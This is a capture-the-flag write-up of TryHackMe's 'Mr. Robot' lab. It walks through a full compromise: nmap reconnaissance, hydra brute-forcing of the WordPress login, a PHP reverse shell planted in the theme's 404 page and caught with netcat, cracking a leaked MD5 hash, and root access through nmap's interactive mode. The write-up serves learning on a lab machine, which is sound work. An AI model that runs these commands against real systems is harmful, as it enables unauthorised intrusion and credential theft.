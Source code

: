 ```yaml
---
title: THM - Mr. Robot
description: TryHackMe write-up of Mr. Robot room
author: z3nn
date: 2020-09-28 18:48:02 +0300
categories: [Hacking, TryHackMe]
tags: [pentest,  linux,  wordpress,  mr. robot,  security]
---
```


# THM - Mr. Robot

A write-up to the `Mr. Robot` machine provided by [TryHackMe](https://tryhackme.com/). This machine is rated as a `Medium` difficulty... Let's get to it.

## Recon
Running an nmap scan for first recon on this room to see what ports are open, what services are running on it... etc
```
# Nmap 7.80 scan initiated Mon Sep 28 17:11:55 2020 as: nmap -sS -sV -oA robot-vuln -p- -T5 --script=default,vuln -Pn 10.10.42.60
Nmap scan report for 10.10.42.60
Host is up (0.050s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_sslv2-drown:

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 17:23:43 2020 -- 1 IP address (1 host up) scanned in 708.02 seconds
```

... what comes next is not so technical... while `gobuster` was running I started clicking stuff around and trying to access pages here and there... and I ended up on a `Wordpress` 404 page. After this I took a look at gobuster and what do you know, we have `/wp-content` and other Wordpress related paths.

`gobuster` also returned a `/robots` path which after accessing is just the `/robots.txt` file.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Looks like we got our first key.

`fsocity.dic` seems to be a custom word dictionary that might be usefull to us so we will download it on our machine using `wget`

WPScan revealed a good detail about this web app
```
# using 2015 theme
WordPress theme in use: twentyfifteen
 | Location: http://10.10.42.60/wp-content/themes/twentyfifteen/
```

## Foothold

Since there's not much else to go on from here and I already am under the impression that we'll have to reverse shell our way in from the Wordpress theme it's time to `brute force` our way in.

### Username

We don't know what username we need to use so we will have to brutefoce that also... using the dictionary kindly provided by the web app: `fsocity.dic`

```
hydra -L fsocity.dic -p test 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```
- we will use `fsocity.dic` to check for possible usernames
- we will be looking for an _incorrect password_ message to know we have the right user


After running for a bit we have our user:
```
[80][http-post-form] host: 10.10.42.60   login: Elliot   password: test
```

Now it's time to try and bruteforce the password... one good tip I received here was to filter out the dictionary for duplicates and entries that wouldn't match a password cryteria (a minimum of x character)


```
hydra -l Elliot -P fsocity.dic2 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"
```

After a _long time_ we get the password and we can now login in the wordpress app.


## Exploit

I looked around the Wordpress dashboard and couldn't find anything interesting... other then the fact that Elliot's therapist is subscribed to his blog.

I used PentestMonkey's [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) to add it do the 404.php code of Wordpress theme and accessed a random page that would return a 404 error.


```
$ nc -lnvp 8585
listening on [any] 8585 ...
connect to [10.11.14.38] from (UNKNOWN) [10.10.42.60] 58713
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:13:58 up  1:04,  0 users,  load average: 5.43, 5.10, 4.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```
We're in... time to upgrade this shell to something _nicer_, I would say that I used my own [Cheatsheet](https://7a336e6e.github.io/posts/pentest-cheatsheet/#upgrading-a-reverse-shell) for this but the reality is that I've done this thing so many times that I know it _by heart_

## 2nd Flag

Manual _enumeration_ revealed this system has a user `robot` and his `/home` has a few interesting files:
```
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Now we can't read `key-2-of-3.txt` unfortunately...yet. But we can read `password.raw-md5`

```
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Here we can either ask John to do our work for us or use Hashcat, it's up to your own choice and prefferences... but we get the password for `robot` and therefore we get `key-2-of-3`


## Privesc

In order for us to get the 3rd and final flag we need to escalate our privileges to `root`, which I assume has the 3rd and final flag.

Now I had a bit of a hard time to find a place to get `linpeas.sh` as this user's `/home` was owned by root and we didn't have write access to it... bummer~

I managed to find a nice and cozy place in `/var/run/shm` where I downloaded `linpeas.sh` from my own machine and executed it.

Now running linpeas we see the ubuntu version is being flagged right away with the _RED/YELLOW_ marker as a _99% PE vector_ ... which it might be, but the way to root is far more easy... Just a few more lines below we see that our user can execute `nmap`. We can open an interactive nmap shell from which we can switch to a `root` shell and therefore get our final flag.

```
robot@linux:/var/run/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```

And we got our 3rd and final key and this box is **OWNED**

